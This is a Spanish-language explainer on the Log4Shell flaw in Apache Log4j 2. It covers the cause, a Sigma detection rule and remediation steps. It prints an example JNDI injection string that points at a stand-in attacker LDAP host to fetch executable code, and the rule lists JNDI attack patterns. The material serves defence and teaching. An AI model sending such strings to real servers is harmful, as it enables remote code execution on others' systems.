

# Análisis de la vulnerabilidad Log4Shell (CVE-2021-44228)

En diciembre de 2021 se descubrió una vulnerabilidad de ejecución remota de código (RCE) en la librería de registro **Apache Log4j 2**, bautizada como **Log4Shell**. Con una puntuación CVSS de **10.0 (Crítica)**, afectó a millones de servicios empresariales en todo el mundo.

---

## ¿Por qué ocurrió?

Log4j incluía una funcionalidad de sustitución de mensajes que permitía consultar datos dinámicos mediante **JNDI (Java Naming and Directory Interface)**:

```text
${jndi:ldap://atacante.com/exploit}
```

Cuando Log4j procesaba un mensaje que contenía esta cadena (por ejemplo, en la cabecera `User-Agent` de una petición HTTP), intentaba contactar con el servidor LDAP del atacante y descargar una clase Java ejecutable.

---

## Flujo del ataque



---

## Detección y mitigación

### 1. Regla Sigma para detección en registros de servidor web o WAF

```yaml
title: Detección de patrones JNDI en cabeceras HTTP
status: production
logsource:
    category: webserver
detection:
    keywords:
        - '${jndi:ldap:'
        - '${jndi:rmi:'
        - '${jndi:dns:'
    condition: keywords
falsepositives:
    - Escaneos de seguridad autorizados
level: critical
```

### 2. Medidas de remediación inmediatas
- Actualizar Log4j a versiones `>= 2.17.1`.
- Configurar la propiedad del sistema `log4j2.formatMsgNoLookups=true` en versiones 2.10 a 2.14.1.
- Restringir el tráfico saliente desde servidores de aplicaciones hacia puertos no estándar de LDAP/RMI.
